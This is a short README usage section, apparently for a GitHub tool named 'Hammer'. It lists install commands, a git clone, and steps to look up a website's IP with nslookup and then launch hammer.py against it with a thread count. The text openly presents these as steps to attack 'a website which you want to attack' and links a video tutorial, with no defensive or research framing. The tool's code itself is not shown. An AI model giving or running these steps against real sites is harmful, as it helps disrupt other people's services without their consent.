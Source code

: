## Usage:
```
$ apt update
$ apt upgrade
$ apt install python
$ apt install git
$ apt install dnsutils
$ git clone https://github.com/Pavithran-R/Hammer/

Hammer need the <b>Name Server</b> of a website which you want to attack...
To get the Name Server...just type
$ <b>nslookup example.com<b>
Note the IP Address of that Website

then
$ cd Hammer
$ python3 hammer.py -s [ip Address] -t 135
example:
$ python3 hammer.py -s 123.45.67.89 -t 135
```

## Video Tutorial:
How to use Hammer [`Watch it`](http://www.youtube.com/watch?v=HVbRUhX2EPo)

